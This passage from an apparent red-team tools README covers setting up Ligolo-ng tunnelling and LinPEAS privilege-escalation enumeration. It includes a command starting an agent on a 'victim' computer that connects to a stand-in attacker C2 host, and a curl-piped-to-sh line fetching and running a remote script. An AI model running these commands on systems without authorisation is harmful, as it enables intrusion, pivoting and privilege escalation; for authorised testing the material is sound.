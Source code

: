 ```bash
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
```

**Setup: (Windows)** 

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

**Setup: (Proxy server)** 

```bash
./proxy -h # Help options
./proxy -autocert # Automatically request LetsEncrypt certificates
```

**Usage:**

*Start the agent on your target (victim) computer (no privileges are required!):*

```bash
./agent -connect attacker_c2_server.com:11601
```

A session should appear on the proxy server.

```
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the session command to select the agent.

```
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

Full usage information can be found [here](https://github.com/nicocha30/ligolo-ng#using-ligolo-ng).

![image](https://user-images.githubusercontent.com/100603074/216729440-80871cad-4c06-4eb5-8e91-d083ea3f1d2b.png)

*Image used from https://github.com/nicocha30/ligolo-ng#demo*

Privilege Escalation
====================

### [🔙](#tool-list)[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

LinPEAS is a nice verbose privilege escalation for finding local privesc routes on Linux endpoints. 

**Install + Usage:**

```bash
curl -L "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" | sh
```

![image](https://user-images.githubusercontent.com/100603074/192070104-8a121544-5c88-4c24-8b2e-590700b345e7.png)
